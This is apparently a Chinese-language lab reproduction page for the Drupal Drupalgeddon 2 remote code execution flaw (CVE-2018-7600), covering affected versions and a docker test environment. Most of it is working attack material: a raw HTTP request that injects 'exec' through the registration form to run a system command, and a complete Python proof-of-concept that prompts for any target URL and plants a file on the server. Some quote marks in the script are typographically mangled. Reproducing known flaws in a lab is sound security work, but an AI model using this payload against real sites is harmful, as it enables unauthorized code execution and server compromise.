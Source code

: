 ```yaml
---
title: "（CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞"
id: zhfly2893
---
```


# （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞

## 一、漏洞简介

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

## 二、漏洞影响

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

## 三、复现过程

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d 
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103 `form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id` 
```

成功执行代码，这个代码最终执行了id命令：

![image](../img/373a1ad3552bf62fe4f1ac5c8fac9a71.png)

### **exploit.py**

```
#!/usr/bin/env python3
import sys
import requests

print (’################################################################’)

print (’# Proof-Of-Concept for CVE-2018-7600’)

print (’# by Vitalii Rudnykh’)

print (’# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders’)

print (’# [https://github.com/a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600)’)

print (’################################################################’)

print (‘Provided only for educational or information purposes\n’)

target = input('Enter target url (example: [https://domain.ltd/](https://domain.ltd/)): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)

# set verify = False if your proxy certificate is self signed

# remember to set proxies both for http and https

# example:

# proxies = {‘http’: ‘[http://127.0.0.1:8080](http://127.0.0.1:8080)’, ‘https’: ‘[http://127.0.0.1:8080](http://127.0.0.1:8080)’}

# verify = False

proxies = {}

verify = True

url = target + ‘user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax’

payload = {‘form_id’: ‘user_register_form’, ‘_drupal_ajax’: ‘1’, ‘mail[#post_render][]’: ‘exec’, ‘mail[#type]’: ‘markup’, ‘mail[#markup]’: ‘echo “;-)” | tee hello.txt’} `r = requests.post(url, proxies=proxies, data=payload, verify=verify)

check = requests.get(target + ‘hello.txt’, proxies=proxies, verify=verify)

if check.status_code != 200:

sys.exit(“Not exploitable”)

print (’\nCheck: '+target+‘hello.txt’)` 
```

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2018-7600/